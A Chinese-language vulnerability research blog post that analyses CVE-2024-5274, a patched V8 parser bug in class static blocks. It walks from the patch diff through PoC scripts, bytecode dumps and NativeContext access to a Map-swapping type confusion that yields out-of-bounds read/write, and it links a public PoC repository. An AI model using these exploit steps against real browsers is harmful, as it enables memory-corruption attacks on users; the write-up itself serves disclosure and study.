


+++
title = 'CVE-2024-5274: A Minor Flaw in V8 Parser Leading to Catastrophes'
date = 2024-08-30T10:09:29+08:00
draft = false
+++

在今年5月，我们注意到Chrome在[一次更新](https://chromereleases.googleblog.com/2024/05/stable-channel-update-for-desktop_23.html)中修复了一个被在野利用的V8漏洞，我们迅速定位了这个漏洞的修复，发现他是近些年来罕见的Parser模块的漏洞，这引起了我们很大的兴趣，于是有了以下的研究。

## 从patch到PoC

首先我们看一下此漏洞的[patch](https://chromium-review.googlesource.com/c/v8/v8/+/5553030)：

```diff
diff --git a/src/ast/scopes.cc b/src/ast/scopes.cc
index 660fdd2e9ad..de4df35c0ad 100644
--- a/src/ast/scopes.cc
+++ b/src/ast/scopes.cc
@@ -2447,7 +2447,7 @@ bool Scope::MustAllocate(Variable* var) {
     var->set_is_used();
     if (inner_scope_calls_eval_ && !var->is_this()) var->SetMaybeAssigned();
   }
-  DCHECK(!var->has_forced_context_allocation() || var->is_used());
+  CHECK(!var->has_forced_context_allocation() || var->is_used());
   // Global variables do not need to be allocated.
   return !var->IsGlobalObjectProperty() && var->is_used();
 }
diff --git a/src/parsing/parser-base.h b/src/parsing/parser-base.h
index 40914d39a4f..65c338f343f 100644
--- a/src/parsing/parser-base.h
+++ b/src/parsing/parser-base.h
@@ -2661,6 +2661,7 @@ typename ParserBase<Impl>::BlockT ParserBase<Impl>::ParseClassStaticBlock(
   }

   FunctionState initializer_state(&function_state_, &scope_, initializer_scope);
+  FunctionParsingScope body_parsing_scope(impl());
   AcceptINScope accept_in(this, true);

   // Each static block has its own var and lexical scope, so make a new var
```

patch十分简单，实际真正有效的修复代码仅有一行，在解析class的[static initialization block](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Classes/Static_initialization_blocks)时新增了一个类型为`FunctionParsingScope`的变量，我们再看一下这个新增的变量做了什么：

```C++
  class V8_NODISCARD FunctionParsingScope {
   public:
    explicit FunctionParsingScope(Impl* parser)
        : parser_(parser), expression_scope_(parser_->expression_scope_) {
      parser_->expression_scope_ = nullptr;
    }

    ~FunctionParsingScope() { parser_->expression_scope_ = expression_scope_; }

   private:
    Impl* parser_;
    ExpressionScope* expression_scope_;
  };
```

这是一个极为简单的类，他所做的事情就是在构造时把当前`parser_`中的`expression_scope_`暂存起来，再在析构的时候将其恢复。那么重点就是这个`ExpressionScope`了。

parser在语法分析阶段，会将脚本中的不同部分分为不同的[Scope](https://developer.mozilla.org/en-US/docs/Glossary/Scope)，简单理解下Scope划分了变量的作用范围，JavaScript中有许多不同的Scope类型，如Global scope/Module scope/Function scope等等。

为了更好地解析变量所在的不同Scope，开发者引入了`ExpressionScope`的概念，其具体概念可以参考这篇[官方文档](https://docs.google.com/document/d/1FAvEp9EUK-G8kHfDIEo_385Hs2SUBCYbJ5H-NnLvq8M/edit)。值得一提的是，v8中的`ExpressionScope`和`Scope`在命名上很相似，实际是完全不同的概念，`ExpressionScope`是一个中间变量，他的存在是为了方便解析，用来生成实际AST中的`Scope`。`Scope`和`ExpressionScope`一样，通过parent来逐级索引外层。

回到此漏洞，新增的`FunctionParsingScope`变量阻断了`ExpressionScope`链向parent索引，那么原漏洞很可能是导致了parent ExpressionScope的非预期行为，寻找parent的引用，几乎只有这个函数是可能的嫌疑犯：

```C++
  void RecordThisUse() {
    ExpressionScope* scope = this;
    do {
      if (scope->IsArrowHeadParsingScope()) {
        scope->AsArrowHeadParsingScope()->RecordThisUse();
      }
      scope = scope->parent();
    } while (scope != nullptr);
  }
```

再查看此函数的调用处：

```C++
  // Needs to be called if the reference needs to be available from the current
  // point. It causes the receiver to be context allocated if necessary.
  // Returns the receiver variable that we're referencing.
  V8_INLINE Variable* UseThis() {
    // ...
    var->set_is_used();
    if (closure_scope == receiver_scope) {
      // It's possible that we're parsing the head of an arrow function, in
      // which case we haven't realized yet that closure_scope !=
      // receiver_scope. Mark through the ExpressionScope for now.
      expression_scope()->RecordThisUse();
    } else {
    // ...
  }
```

这个函数在处理JavaScript中的一个特殊变量`this`，在传统的function中，this变量不能在函数调用间传递，如：

```javascript
function showThis() {
  function innerThis() {
    return this;
  }
  console.log(this == innerThis());
}

let obj = {};
obj.showThis = showThis;
obj.showThis();
// output: false
```

而在ES6中引入的箭头函数解决了这一问题，箭头函数内可以正常使用外层的`this`变量。为了支持此特性，对于`this`的parsing就会需要特殊处理。正如`UseThis`函数中的注释所说，当v8发现出现`this`变量时，若内外的Scope为同一个，有可能是正在解析箭头函数的参数部分，如以下代码所示：

```javascript
function foo() {
  (arg = this.a) => { console.log(arg); }
}
```

由于此时箭头函数的Scope并未分配，因此需要用`ExpressionScope`来标记此处使用了`this`变量，以便后面分配Scope时能正确分配出`this`变量。在`RecordThisUse`中，函数将所有parent `ExpressionScope`都标记为使用了`this`。

那么回想`this`的传递，他应当在函数的调用过程中被阻断，而class的static block同样应当被视为一个函数block，所以此处的问题就为：在class static block中使用`this`，通过`ExpressionScope`链传递，会错误地将外层的函数标记为使用了`this`。PoC如下：

```javascript
function f1() {
  (arg = class AAA {
    static {
      this;
    }
  }) => { }
}
f1();
```

由于外层函数`f1`的`this`并未被使用，但是被标记为了`has_forced_context_allocation`，因此在分配该变量时会触发DCHECK。



## 构造字节码不一致

这样一个微小的错误能够引起v8引擎什么样的混乱呢？接下来我们继续深入研究生成的字节码。

构造以下函数：

```javascript
function f1() {
  function foo() { }
  (arg = class AAA {
    static {
      this;
    }
  }) => { }
}
```

在新版修复漏洞后生成的字节码：

```assembly
[generated bytecode for function: f1 (0x234800198559 <SharedFunctionInfo f1>)]
Bytecode length: 6
Parameter count 1
Register count 0
Frame size 0
   40 S> 0xee0000400a4 @    0 : 85 00 00 02       CreateClosure [0], [0], #2
         0xee0000400a8 @    4 : 0e                LdaUndefined
  102 S> 0xee0000400a9 @    5 : af                Return
Constant pool (size = 1)
0xee000040071: [TrustedFixedArray]
 - map: 0x234800000595 <Map(TRUSTED_FIXED_ARRAY_TYPE)>
 - length: 1
           0: 0x2348001986a1 <SharedFunctionInfo>
```

旧版下有问题的字节码：

```assembly
[generated bytecode for function: f1 (0x0e2b0019ab81 <SharedFunctionInfo f1>)]
Bytecode length: 15
Parameter count 1
Register count 1
Frame size 8
Bytecode age: 0
   19 E> 0xe2b0019adc2 @    0 : 84 00 01          CreateFunctionContext [0], [1]
         0xe2b0019adc5 @    3 : 1a fa             PushContext r0
         0xe2b0019adc7 @    5 : 0b 02             Ldar <this>
         0xe2b0019adc9 @    7 : 25 02             StaCurrentContextSlot [2]
   63 S> 0xe2b0019adcb @    9 : 81 01 00 02       CreateClosure [1], [0], #2
         0xe2b0019adcf @   13 : 0e                LdaUndefined
  155 S> 0xe2b0019add0 @   14 : aa                Return
Constant pool (size = 2)
0xe2b0019ad91: [FixedArray] in OldSpace
 - map: 0x0e2b00000089 <Map(FIXED_ARRAY_TYPE)>
 - length: 2
           0: 0x0e2b0019ad2d <ScopeInfo FUNCTION_SCOPE>
           1: 0x0e2b0019ad5d <SharedFunctionInfo>
```

正如前一节所述，即使在函数`f1`中没有使用`this`，在字节码中仍然强制分配了`this`变量。具体解释其字节码：

1. `CreateFunctionContext`创建了一个函数的Context
1. `PushContext`将当前的Context替换为新创建的，保存旧Context
1. `Ldar`读取`this`到accumulator
1. `StaCurrentContextSlot`将accumulator中的值存储到当前Context的slot 2中

然而我们的目标是在一次脚本执行内字节码发生不一致，这样才有利用的可能。学习了[CVE-2022-4262](https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2022/CVE-2022-4262.html)的PoC和[分析](https://github.com/bjrjk/CVE-2022-4262/blob/main/FA/FA.md)，或许利用Bytecode flushing机制是个不错的主意。v8中若一个函数在多次GC后仍未被使用，该函数的bytecode就会被回收。而再次执行时，parser会使用之前已存储的结果来更快地生成bytecode。例如在parse箭头函数的头部时，第一次生成bytecode时parser不知道是在处理变量赋值还是箭头函数参数声明，而在之后的处理则可以确定是箭头函数头部。

有了这个基础知识，我们主动触发Bytecode flushing，成功构造出了两次执行的字节码不一致：

```javascript
f1();
flush_bytecode();
f1();
```

函数`f1`在flush后的字节码和漏洞修复后的字节码一致，即少了构造Function Context的四条字节码指令。

## 失败的尝试记录

> 此节并不影响后续内容阅读，读者可直接阅读下一节。

实际上我们的研究并非一帆风顺，在构造出实际有用的不一致前，我们花费了大量时间尝试另一种字节码不一致。

最开始观察错误的字节码，其本质上是在Function Context内存储了一个多余的`this`，那么第一个到脑中的想法就是：如果在Function Context还有其他的变量，那么由于两次字节码不一致，若内部函数使用了同样的slot index来访问变量，可能会发生一些非预期的行为。

带着这个想法，构造了以下PoC:

```javascript
function f1() {
  let a0 = 0, a1 = 1;

  function f2() {
    console.log('a0 = ' + a0);
    console.log('a1 = ' + a1);
  }

  function hax() {
    a0 = 0x1337;
  }

  (arg = class AAA {
    static {
      this;
    }
  }) => { }

  hax();
  f2();
  return hax;
}

// keep a reference to hax to make it consistent after flushing
let hax = f1();
flush_bytecode();
console.log('after flush');
f1();
```

输出结果为：

```
a0 = 4919
a1 = 1
after flush
a0 = 0
a1 = 4919
```

可以看到，在第二次执行时，即便代码中赋值的对象是a0，但实际上被修改的是a1。查看函数`hax`的字节码：

```assembly
[generated bytecode for function: hax (0x2e72000db2ed <SharedFunctionInfo hax>)]
Bytecode length: 15
Parameter count 1
Register count 1
Frame size 8
Bytecode age: 0
  763 S> 0x2e72000dc35e @    0 : 00 0d 37 13       LdaSmi.Wide [4919]
         0x2e72000dc362 @    4 : c5                Star0
         0x2e72000dc363 @    5 : 16 03             LdaCurrentContextSlot [3]
  766 E> 0x2e72000dc365 @    7 : ab 00             ThrowReferenceErrorIfHole [0]
         0x2e72000dc367 @    9 : 0b fa             Ldar r0
         0x2e72000dc369 @   11 : 25 03             StaCurrentContextSlot [3]
         0x2e72000dc36b @   13 : 0e                LdaUndefined
  778 S> 0x2e72000dc36c @   14 : aa                Return
Constant pool (size = 1)
0x2e72000dc331: [FixedArray] in OldSpace
 - map: 0x2e7200000089 <Map(FIXED_ARRAY_TYPE)>
 - length: 1
           0: 0x2e72000dad51 <String[2]: #a0>
```

两次生成的`hax`字节码一样，均从当前Context的slot 3中读取变量。在第一次执行时这是没有问题的，因为`this`被存储在slot 2中，a0存储在slot 3中，而在第二次执行时，v8为`f1`生成了正确的字节码，此时a0在slot 2，a1在slot 3中，`hax`的字节码没有正确更新，就出现了上面这样非预期的结果。

我们试图利用这个bug，导致更进一步的type confusion。尝试了以下手段均以失败告终：

1. 尝试利用JIT优化对a0的访问，再在触发漏洞后使用JIT后的函数访问a1。然而此法不通，实际上字节码层面的变量修改对于JIT引擎来说都是可见的。
2. 尝试使用非预期的字节码访问另一个变量，即以下场景：字节码Foo只接受类型A的参数，在使用类型B的参数时会发生类型混淆。然而字节码作为较为高层的存在，都会校验输入参数的类型，并不存在我们想要的字节码。

## 利用字节码不一致

### 另一种非预期行为

我们观察两次生成的字节码，区别在于有没有Function Context。研究字节码可以发现，对于Context的load有两种方式，分别是`LdaCurrentContextSlot`和`LdaContextSlot`。

```javascript
// comments from src/interpreter/interpreter-generator.cc

LdaCurrentContextSlot <slot_index>
Load the object in |slot_index| of the current context into the accumulator.

LdaContextSlot <context> <slot_index> <depth>
Load the object in |slot_index| of the context at |depth| in the context
chain starting at |context| into the accumulator.
```

很显然，`LdaContextSlot`更为复杂。因为context的存储是栈式的，`LdaContextSlot`给予了一个更通用的方式来load，可以手动指定起始context和需要查找的depth。

例如，以下字节码则是一个常见的字节码组合来load一个值。

```assembly
 2807 S> 0x1541001a24ba @    0 : 14 ff 70 01       LdaContextSlot <context>, [10], [1]
         0x1541001a24be @    4 : ab 00             ThrowReferenceErrorIfHole [0]
         0x1541001a24c0 @    6 : c5                Star0
```

回想两次生成的字节码的不同，那么一个新想法就是：如果在第二次生成字节码时，没有创建新的Function Context，而在内部函数`LdaContextSlot`时保持了旧的深度，那么会发生什么？

```javascript
let o0;
function f1() {
  function hax() {
    %DebugPrint(o0);
  }
  // ...
}
```

函数`hax`的字节码如下：

```assembly
[generated bytecode for function: hax (0x00f9000de775 <SharedFunctionInfo hax>)]
Bytecode length: 14
Parameter count 1
Register count 1
Frame size 8
Bytecode age: 0
 2602 S> 0xf9000e1256 @    0 : 14 ff 02 01       LdaContextSlot <context>, [2], [1]
         0xf9000e125a @    4 : ab 00             ThrowReferenceErrorIfHole [0]
         0xf9000e125c @    6 : c5                Star0
         0xf9000e125d @    7 : 65 aa 01 fa 01    CallRuntime [DebugPrint], r0-r0
         0xf9000e1262 @   12 : 0e                LdaUndefined
 2621 S> 0xf9000e1263 @   13 : aa                Return
Constant pool (size = 1)
0xf9000e1229: [FixedArray] in OldSpace
 - map: 0x00f900000089 <Map(FIXED_ARRAY_TYPE)>
 - length: 1
           0: 0x00f9000dad2d <String[2]: #o0>
```

输出的结果令人吃惊：

```javascript
DebugPrint: 0xf9000d4089: [JSGlobalObject] in OldSpace
 - map: 0x00f9000d8395 <Map[20](HOLEY_ELEMENTS)> [DictionaryProperties]
 - prototype: 0x00f900092b7d <Object map = 0xf9000d46a5>
 - elements: 0x00f900000219 <FixedArray[0]> [HOLEY_ELEMENTS]
 - native context: 0x00f9000c3c2d <NativeContext[281]>
 - global proxy: 0x00f9000c3bf5 <JSGlobalProxy>
 - properties: 0x00f9000e0bbd <GlobalDictionary[261]>
 - All own properties (excluding elements): {
   Uint8Array: 0x00f9000c5be1 <JSFunction Uint8Array (sfi = 0xf90008c131)> (data, dict_index: 30, attrs: [W_C])
   ...
```

这个`JSGlobalObject`到底从何而来？

答案是他来自于[NativeContext](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/objects/contexts.h;drc=1f14cc876cc5bf899d13284a12c451498219bb2d;l=704)，原来由于我们跳过了一层Function Context，我们load到了预期Context的更外面一层，而这一层的Context就是`NativeContext`。

我们稍微修改一下脚本，dump出`NativeContext`中的所有对象:

```javascript
let o0, o1, o2, o3, ...
function f1() {
  function hax() {
    %DebugPrint(o0);
    %DebugPrint(o1);
    %DebugPrint(o2);
    // ...
  }
// ...
```

这些对象对应的源码在[这里](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/objects/contexts.h;drc=1f14cc876cc5bf899d13284a12c451498219bb2d;l=44)，我们dump出的[结果](https://github.com/DarkNavySecurity/PoC/blob/main/CVE-2024-5274/native_context_objs.txt)也已公开。

### NativeContext的玩法

至此我们可以任意地访问`NativeContext`中的对象，里面有许多在正常JavaScript执行过程中无法获取到的对象。例如我们可以直接访问到一个double类型的array中的`FixedDoubleArray`（实际存储元素的结构）。

```C
// o155 in slot 157
DebugPrint: 0x272f000d1ba1: [FixedDoubleArray] in OldSpace
 - map: 0x272f0000090d <Map(FIXED_DOUBLE_ARRAY_TYPE)>
 - length: 64
        0-63: 0
0x272f0000090d: [Map] in ReadOnlySpace
 - type: FIXED_DOUBLE_ARRAY_TYPE
 - instance size: variable
 - elements kind: HOLEY_DOUBLE_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x272f00000251 <undefined>
 - prototype_validity cell: 0
 - instance descriptors (own) #0: 0x272f00000295 <DescriptorArray[0]>
 - prototype: 0x272f00000235 <null>
 - constructor: 0x272f00000235 <null>
 - dependent code: 0x272f00000229 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0
```

然而，若我们试图去使用这个类型，会发生crash。



这是因为这些类型并不能直接从JavaScript中操作，除了一些基本类型，基本上只有属于`JSObject`的类型才可被脚本操作。

继续研究`NativeContext`中的其他Object，可以看到其中有大量Map类型的Object。

```C
// o151 in slot 153
DebugPrint: 0x272f000d1b39: [Map] in OldSpace
 - type: JS_MAP_KEY_VALUE_ITERATOR_TYPE
 - instance size: 20
 - inobject properties: 0
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x272f00000251 <undefined>
 - prototype_validity cell: 0x272f00000ac5 <Cell value= 1>
 - instance descriptors (own) #0: 0x272f00000295 <DescriptorArray[0]>
 - prototype: 0x272f000d1251 <Object map = 0x272f000d11e5>
 - constructor: 0x272f000d1b19 <JSFunction MapIterator (sfi = 0x272f00091e29)>
 - dependent code: 0x272f00000229 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0
 ...
```

Map是v8中一个基础且重要的类型，他决定了一个变量的类型。如果有办法操作Map，那就能够造出一个强大的漏洞利用原语Type Confusion。

在某些情况下，v8会从`NativeContext`中读取Map来创建对象。例如在[src/builtins/promise-all.tq](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/builtins/promise-all.tq;drc=ec53113a6d7d95cf8b255aec7fc91b17acd33d80;l=309)中：

```javascript
      const arrayMap =
          *NativeContextSlot(
          nativeContext, ContextSlot::JS_ARRAY_PACKED_ELEMENTS_MAP_INDEX);
// ...
      const valuesArray = NewJSArray(arrayMap, values);
```

我们虽然不能直接修改Map对象，但是`NativeContext`中有大量的Map，如果我们从某个slot读取一个Map覆盖了另一个slot中的Map，那么是否就造成了类型混淆呢？答案是肯定的！

以下代码就是一个简单的PoC:

```javascript
function f1() {
  function hax() {
    // o60 is JS_ARGUMENTS_OBJECT_TYPE map with FAST_SLOPPY_ARGUMENTS_ELEMENTS
    // o110 is JS_ARRAY_TYPE map with PACKED_DOUBLE_ELEMENTS
    o60 = o110;
  }
  // ...
}
// ...

function hax2(a0) {
  // `arguments` is confused to double array now
  %DebugPrint(arguments);
}
hax2();
```

在PoC中我们将函数的`arguments`混淆成了元素为double的array，可以造成OOB读写。通过完成这样类型混淆的方式，接下来就是经典的v8漏洞利用套路了。相关的[PoC](https://github.com/DarkNavySecurity/PoC/tree/main/CVE-2024-5274)代码和全部的native objects定义我们已公开在了我们的Github仓库中。

至此我们终于通过parser中一个不起眼的小问题，完成了强大的漏洞利用原语，几乎可以任意地混淆JavaScript引擎中的不同类型。
